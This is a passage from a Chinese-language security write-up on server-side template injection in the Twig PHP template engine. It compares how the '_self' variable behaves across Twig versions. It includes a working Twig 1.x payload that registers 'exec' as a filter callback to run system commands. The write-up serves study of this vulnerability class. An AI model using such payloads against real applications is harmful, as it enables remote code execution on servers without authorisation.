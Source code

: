 当然用`app.request.request` 应该也是可以的。



## twig 1.x payload

```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```



.x有三个全局变量

> The following variables are always available in templates:
>
> - `_self`: references the current template;
> - `_context`: references the current context;
> - `_charset`: references the current charset.

对应的代码是

```
protected $specialVars = [
        '_self' => '$this',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```



2.x 及3.x 以后

> The following variables are always available in templates:
>
> - `_self`: references the current template name;
> - `_context`: references the current context;
> - `_charset`: references the current charset.

`_self` 不再是`$this` 而是template name 只是个String

```
private $specialVars = [
        '_self' => '$this->getTemplateName()',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```





## twig 3.x with symfony ssti 

### 任意文件读取

除了twig自带的Filters, symfony 也自己实现了一些filters
